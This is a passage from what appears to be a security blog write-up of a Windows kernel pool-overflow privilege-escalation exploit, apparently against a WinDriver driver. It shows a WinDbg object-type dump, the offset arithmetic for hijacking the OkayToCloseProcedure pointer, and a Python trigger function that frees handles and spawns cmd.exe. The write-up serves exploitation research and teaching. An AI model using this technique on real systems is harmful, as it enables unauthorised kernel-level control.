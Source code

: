       +0x002 SupportsObjectCallbacks : 0y0
      +0x002 CacheAligned     : 0y0
      +0x004 ObjectTypeCode   : 0
      +0x008 InvalidAttributes : 0xb0
      +0x00c GenericMapping   : _GENERIC_MAPPING
      +0x01c ValidAccessMask  : 0xf0003
      +0x020 RetainAccess     : 0
      +0x024 PoolType         : 0 ( NonPagedPool )
      +0x028 DefaultPagedPoolCharge : 0
      +0x02c DefaultNonPagedPoolCharge : 0x5c
      +0x030 DumpProcedure    : (null) 
      +0x034 OpenProcedure    : (null) 
      +0x038 CloseProcedure   : (null) 
      +0x03c DeleteProcedure  : (null) 
      +0x040 ParseProcedure   : (null) 
      +0x044 SecurityProcedure : 0x82cb02ac        long  nt!SeDefaultObjectMethod+0
      +0x048 QueryNameProcedure : (null) 
      +0x04c OkayToCloseProcedure : (null)         <--- OkayToCloseProcedure is offset 0x4c from 0x0
   +0x078 TypeLock         : 
      +0x000 Locked           : 0y0
      +0x000 Waiting          : 0y0
      +0x000 Waking           : 0y0
      +0x000 MultipleShared   : 0y0
      +0x000 Shared           : 0y0000000000000000000000000000 (0)
      +0x000 Value            : 0
      +0x000 Ptr              : (null) 
   +0x07c Key              : 0x6f436f49
   +0x080 CallbackList     :  [ 0x84fc80c0 - 0x84fc80c0 ]
      +0x000 Flink            : 0x84fc80c0 _LIST_ENTRY [ 0x84fc80c0 - 0x84fc80c0 ]
      +0x004 Blink            : 0x84fc80c0 _LIST_ENTRY [ 0x84fc80c0 - 0x84fc80c0 ]
{% endhighlight %}

So, 0x28 + 0x4c = 0x74, which is the location of where our pointer needs to be. But how is the OkayToCloseProcedure called? Turns out, that this is a registered aexit handler. So to trigger the execution of code, one just needs to free the corrupted IoCompletionReserve. We don't know which handle is associated with the overflown chunk, so we just free them all.

{% highlight python %}
def trigger_lpe():
    """
    This function frees the IoCompletionReserve objects and this triggers the 
    registered aexit, which is our controlled pointer to OkayToCloseProcedure.
    """
    # free the corrupted chunk to trigger OkayToCloseProcedure
    for k, v in khandlesd.iteritems():
        kernel32.CloseHandle(v)
    os.system("cmd.exe")
{% endhighlight %}

Obligatory, full sized screenshot:


[FuzzySec]: https://twitter.com/FuzzySec
[sickness416]: https://twitter.com/sickness416
[skylined]: https://twitter.com/berendjanwever
[ryujin]: https://twitter.com/ryujin
[awe]: https://www.offensive-security.com/information-security-training/advanced-windows-exploitation/
[hevd]: https://github.com/hacksysteam/HackSysExtremeVulnerableDriver
[windriver]: http://www.jungo.com/st/products/windriver/
[advisory]: /advisories/src-2017-0026
[exploit]: /pocs/src-2017-0026.py.txt